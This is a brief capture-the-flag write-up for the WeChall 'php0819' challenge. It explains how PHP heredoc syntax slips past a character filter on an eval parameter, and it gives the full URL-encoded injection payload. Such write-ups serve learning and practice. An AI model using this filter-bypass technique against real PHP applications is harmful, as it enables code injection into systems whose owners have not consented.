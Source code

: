 http://www.wechall.net/challenge/space/php0819/index.php

We need to set `$spaceone` to `1337`to solve the problem, according to the code we know that the script filters a lot of special chars EXPECT `<` and `;`.

We'll use [heredoc](http://php.net/manual/en/language.types.string.php) to solve the problem. Submit the following:

```
<<<A
1337
A;
```

answer: open http://www.wechall.net/challenge/space/php0819/index.php?eval=%3C%3C%3CA%0a1337%0aA%3b%0a
